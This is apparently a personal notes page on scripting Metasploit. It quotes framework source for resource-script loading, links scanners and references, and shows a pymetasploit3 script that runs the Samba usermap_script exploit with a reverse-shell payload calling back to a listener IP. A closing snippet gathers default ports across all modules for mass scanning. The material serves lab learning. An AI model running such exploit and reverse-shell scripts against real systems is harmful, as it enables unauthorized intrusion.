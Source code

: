 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T07:12:06.801Z'
---
```


# Metasploit scripting and more

the way metasploit loads resource script:

```ruby
# file: lib/msf/base/sessions/command_shell.rb
  def execute_file(full_path, args)
    if File.extname(full_path) == '.rb'
      Rex::Script::Shell.new(self, full_path).run(args)
    else
      load_resource(full_path) # usually *.rc files
    end
  end

```

the `Shell.new`:

```ruby
#

```
the  `load_resource`:

```ruby
# file: lib/rex/ui/text/resource.rb

# -*- coding: binary -*-
require 'erb'

module Rex
module Ui
module Text

module Resource

  # Processes a resource script file for the console.
  #
  # @param path [String] Path to a resource file to run
  # @return [void]
  def load_resource(path)
    if path == '-'
      resource_file = $stdin.read
      path = 'stdin'
    elsif ::File.exist?(path)
      resource_file = ::File.read(path)
    else
      print_error("Cannot find resource script: #{path}")
      return
    end

    # Process ERB directives first
    print_status "Processing #{path} for ERB directives."
    erb = ERB.new(resource_file)
    processed_resource = erb.result(binding)

    lines = processed_resource.each_line.to_a
    bindings = {}
    while lines.length > 0

      line = lines.shift
      break if not line
      line.strip!
      next if line.length == 0
      next if line =~ /^#/

      # Pretty soon, this is going to need an XML parser :)
      # TODO: case matters for the tag and for binding names
      if line =~ /<ruby/
        if line =~ /\s+binding=(?:'(\w+)'|"(\w+)")(>|\s+)/
          bin = ($~[1] || $~[2])
          bindings[bin] = binding unless bindings.has_key? bin
          bin = bindings[bin]
        else
          bin = binding
        end
        buff = ''
        while lines.length > 0
          line = lines.shift
          break if not line
          break if line =~ /<\/ruby>/
          buff << line
        end
        if ! buff.empty?
          print_status("resource (#{path})> Ruby Code (#{buff.length} bytes)")
          begin
            eval(buff, bin)
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("resource (#{path})> Ruby Error: #{e.class} #{e} #{e.backtrace}")
          end
        end
      else
        print_line("resource (#{path})> #{line}")
        run_single(line)
      end
    end
  end

end

end
end
end

```

---

vulnerability scanners:

https://dradis.com/ce/

nessus

nexpose

openvas

---

[metasploit-framework](https://rubygems.org/gems/metasploit-framework) is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```
